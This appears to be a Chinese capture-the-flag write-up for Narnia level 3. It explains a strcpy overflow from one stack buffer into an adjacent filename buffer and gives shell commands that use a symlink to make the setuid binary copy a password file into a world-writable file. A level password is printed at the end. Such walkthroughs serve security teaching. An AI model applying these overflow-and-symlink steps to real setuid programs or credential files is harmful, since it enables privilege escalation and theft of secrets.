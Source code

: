 ### 解題思路

![alt text](image.png)
ofile 在高地址，ifile 在低地址。我們可以透過 strcpy(ifile, argv[1]) 覆寫到 ofile. 

ofile 是16-byte in size, ifile 是 32-byte in size. 

檢查 ofile 和 ifle 地址是否相鄰
![alt text](image-1.png)

![alt text](image-2.png)

ifile 是 ebp-0x38, 0x38 is 56 in decimal. ofile 是 ebp-0x18(24 in decimal). 56 和 24 的差剛好是32. 因此ofile 和 ifile 地址是相鄰的。
接下來就是,

```
mkdir -p /tmp/fuck1/AAAAAAAAAAAAAAAAAAAAA/tmp/fuck1/
ln -s /etc/narnia_pass/narnia4 /tmp/fuck1/AAAAAAAAAAAAAAAAAAAAA/tmp/fuck1/shit
touch /tmp/fuck1/shit
chmod 777 /tmp/fuck1/shit
./narnia3 /tmp/fuck1/AAAAAAAAAAAAAAAAAAAAA/tmp/fuck1/shit
```
會讀取 /tmp/fuck1/AAAAAAAAAAAAAAAAAAAAA/tmp/fuck1/shit 也就是 /etc/narnia_pass 的内容寫進 /tmp/fuck1/shit
![alt text](image-3.png)

cat /etc/narnia_pass/narnia3: iqNWNk173q